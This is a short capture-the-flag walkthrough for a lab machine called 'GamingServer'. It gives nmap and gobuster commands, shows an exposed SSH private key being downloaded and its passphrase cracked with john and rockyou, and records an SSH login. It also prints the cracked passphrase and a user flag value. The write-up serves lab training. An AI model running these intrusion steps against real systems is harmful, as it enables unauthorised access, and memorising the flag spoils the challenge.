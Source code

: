 # GamingServer

machine ip : `10.10.2.157`

nmap scan
```
nmap -A -T5 -Pn 10.10.2.157 -oN service-version.txt
```
gobuster scan
```
gobuster dir -u http://10.10.2.157 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 60 | tee directory-search.txt
```
found a folder `/secret` and there is a private key.
cracking the password of the private key
```
wget http://10.10.2.157/secret/secretKey
mv secretKey id_rsa
ssh2john id_rsa > john.txt
john --wordlist=/usr/share/wordlist/rockyou.txt john.txt
```
now we found the passkey for the id_rsa :
>  letmein          (id_rsa)

after seeing the page source of the home page we found a username : `john`

login using ssh with private key
```
chmod 600 id_rsa
ssh -i id_rsa john@10.10.2.157

```

| Flag | Value |
|------|-------|
| user.txt | a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e |
| root.txt |
